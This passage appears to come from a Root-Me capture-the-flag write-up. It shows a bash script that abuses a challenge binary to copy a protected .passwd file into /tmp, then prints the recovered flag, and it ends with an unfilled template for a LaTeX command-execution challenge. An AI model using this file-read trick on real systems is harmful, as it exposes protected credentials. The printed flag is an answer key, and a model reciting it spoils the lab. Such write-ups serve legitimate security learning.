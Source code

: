 With the following script:

~~~bash
#!/bin/bash
/bin/cat ../.passwd > /tmp/pwd20220425
~~~

Saving and running the ch4 bash script, we can recover the password from the new temporary file:

~~~shell
app-script-ch4@challenge02:~$ ./ch4 
app-script-ch4@challenge02:~$ cat /tmp/pwd20220425
Vys3OS3iStUapDj
~~~

</details>

### Answer

<details><summary markdown="span">Answer</summary></details>

---

### [App - Script](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## latex command execution

- Author: name
- X Points

### Description

Description Here

### Hints

1. Hint 1

### Connection Details

1. Detail 1

### Attachments

1. Attachment 1

### Solutions

<details><summary markdown="span">Solution 1</summary></details>

### Answer
